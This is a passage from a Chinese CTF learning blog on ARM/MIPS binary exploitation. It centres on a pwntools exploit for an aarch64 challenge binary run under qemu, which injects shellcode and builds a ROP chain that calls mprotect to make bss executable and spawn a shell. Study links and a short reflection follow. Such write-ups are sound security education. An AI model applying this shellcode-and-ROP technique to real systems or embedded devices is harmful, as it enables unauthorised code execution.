详细可参考这位佬[关于学习arm架构下的pwn的总结 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/16077191.html)

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x4007F0
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='aarch64'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "-g", "6666","./baby_arm"]) #开启1234端口
#p = remote('39.106.69.240',20611)
elf = ELF('./baby_arm')
#libc=ELF('./libc.so.6')
mprotect=0x400600
gadget1=0x4008CC
gadget2=0x4008AC
bss=0x411068
bug()
rl("Name:")
shell=asm(shellcraft.aarch64.sh()).ljust(0x100,b'\x00')+p64(mprotect)
sl(shell)
pause()
payload  =cyclic(0x48)+p64(gadget1)
payload +=p64(0)+p64(gadget2)#x29,x30
payload +=p64(0)+p64(1)#x19,x20
payload +=p64(bss+0x100)+p64(7)#x21,x22->x3,x2
payload +=p64(0x1000)+p64(bss-0x68)#x23,x24->x1,w0
payload +=p64(0)+p64(bss)#x29 x30
payload +=p64(0)+p64(0)#x19 x20
payload +=p64(0)+p64(0)#x21 x22
payload +=p64(0)+p64(0)#x23 x24
sl(payload)

inter()
```

#### 总结

初探mips-arm-pwn，漏洞利用思路和x86架构下的基本相同，学习一种新的架构需要先补充一定的理论知识，包括汇编指令，函数调用机制，本地运行和调试。也学到了qemu的一些初步用法，接下来会深入研究异架构在堆上的利用+在实战中的应用，个人感觉ctf中的题目接近实际，但实际更复杂，但利用方法思路，都是一样的，更需要去审读代码，找到可以利用的gadget，完成利用

[MIPS PWN学习-先知社区](https://xz.aliyun.com/news/12737?time__1311=eqUxu7Dt5mqYwq05DI7xiu1tCKH9h2bD&u_atoken=4515f9d14464fc919a564f87bf000358&u_asig=1a0c399817440123244465382e003c)

[gdb调试之linux pc和linux arm环境下\_can't find gdb-CSDN博客](https://blog.csdn.net/haliluya123a/article/details/77801178)

[基于实战的MIPS路由器栈溢出利用：寄存器、指令与攻击思路的探究-先知社区](https://xz.aliyun.com/news/13848?time__1311=eqUxuDcDg7DtY0KGQD/D0idD8QfrhAixoTD&u_atoken=b4f9c942293c240ad7d5216ce9d3f2a9&u_asig=1a0c399a17439117721081268e0031)

[深入异构 PWN：PowerPC&ARM&MIPS-先知社区](https://xz.aliyun.com/news/15999?time__1311=eqUxnD0Gi=GQYY50QD/in+r45bG=zb=ez74D&u_atoken=e0f85a100e2f88cf7157e969a4db0d56&u_asig=1a0c39d417439136635924802e003f)

[IoT 安全从零到掌握：超详尽入门指南（基础篇）-先知社区](https://xz.aliyun.com/news/15949?time__1311=eqUxnD0Gi=w6DCDlhmPT8GDuiDRjjD7wpD&u_atoken=35a67b1559a10836586e258fad23ab2a&u_asig=1a0c380917440103726858386e0035#toc-1)

[从一道mips题目学习搭建mips环境及ROP-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1745278)

[【Pwn 笔记】跨平台架构的环境配置与调试 | binLep's Blog](https://binlep.github.io/old_blog_01/2020/03/20/%E3%80%90Pwn%20%E7%AC%94%E8%AE%B0%E3%80%91%E8%B7%A8%E5%B9%B3%E5%8F%B0%E6%9E%B6%E6%9E%84%E7%9A%84%E7%8E%AF%E5%A2%83%E9%85%8D%E7%BD%AE%E4%B8%8E%E8%B0%83%E8%AF%95/#mipsel-%E5%B0%8F%E7%AB%AF%E5%BA%8F-32-%E4%BD%8D)

[MIPS漏洞调试环境安装及栈溢出-先知社区](https://xz.aliyun.com/news/3762?time__1311=eqUxBDRDg70QDQD/mPD=cHq4fE9fKrq4D&u_atoken=733a44153d1f4158909d37c74d9ebf67&u_asig=1a0c39a017440330539346187e0138)
